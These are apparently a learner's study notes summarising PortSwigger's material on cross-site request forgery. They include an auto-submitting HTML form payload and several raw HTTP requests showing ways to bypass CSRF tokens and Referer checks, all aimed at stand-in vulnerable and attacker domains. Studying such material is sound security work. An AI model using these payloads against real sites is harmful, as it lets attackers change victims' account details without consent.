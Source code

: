 # CSRF (portswigger)

---

Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

for CSRF we need:

1. relevant action
2. cookie based session handling: Performing the action involves issuing one or more HTTP requests, and the application relies solely on session cookies to identify the user who has made the requests.
3. No unpredictable request parameters: The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess.

**HTTP request example**

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

**attack example**

```
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## csrf token bypass example

**some apps validate only post methods**

```
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

**bypass if the app depends on the token being present**

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
```

**bypass if the token is not tied to the user session:**  
In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.

**CSRF token is tied to a non-session cookie** In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:

This situation is harder to exploit but is still vulnerable. If the web site contains any behavior that allows an attacker to set a cookie in a victim’s browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behavior to place their cookie into the victim’s browser, and feed their token to the victim in their CSRF attack.

```
   POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

**CSRF token is simply duplicated in a cookie** some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter.

```
 POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

In this situation, the attacker can again perform a CSRF attack if the web site contains any cookie setting functionality. Here, the attacker doesn’t need to obtain a valid token of their own. They simply invent a token (perhaps in the required format, if that is being checked), leverage the cookie-setting behavior to place their cookie into the victim’s browser, and feed their token to the victim in their CSRF attack.

**Referer-based defenses against CSRF** easey to change the referer

```
 <meta name="referrer" content="never">
 http://attacker-website.com/csrf-attack?vulnerable-website.com

If the application validates that the domain in the Referer starts with the expected value, then the attacker can place this as a subdomain of their own domain:

http://vulnerable-website.com.attacker-website.com/csrf-attack
```

**prevention** . using csrf token and validation for every methods Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.
